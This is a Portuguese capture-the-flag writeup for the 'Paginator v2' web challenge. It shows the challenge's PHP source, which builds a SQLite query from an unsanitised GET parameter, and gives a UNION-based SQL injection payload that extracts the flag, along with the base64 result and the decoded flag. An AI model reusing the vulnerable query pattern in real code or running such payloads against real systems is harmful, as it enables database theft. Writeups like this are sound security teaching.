




# Paginator v2

- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*
- *Autor do desafio: [@gehaxelt](https://github.com/gehaxelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>


Acessando a página inicial, podemos verificar o código fonte.




```php
<?php
ini_set("error_reporting", 1);
ini_set("display_errors",1);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php"; // Now the juicy part is hidden away! $db = new SQLite3('/tmp/db.db');

try{
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>
```

Vemos que no código temos a importação do arquivo `flag.php`, que podemos tentar acessar. Ao acessar, nos deparamos com um erro do SQLite3 dizendo que a tabela `flag` já existe.



Também podemos perceber que o trecho abaixo é vulnerável a SQL Injection. Podemos então criar um union com a tabela de flags. `UNION SELECT * FROM flag`.

```php
$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
```

A query antes do encoding fica: `/?p=2,10 UNION SELECT * from flag`. Assim obtemos a flag como base64, bastando somente fazer decoding
```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ==
```



Obtendo a flag
```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}
```

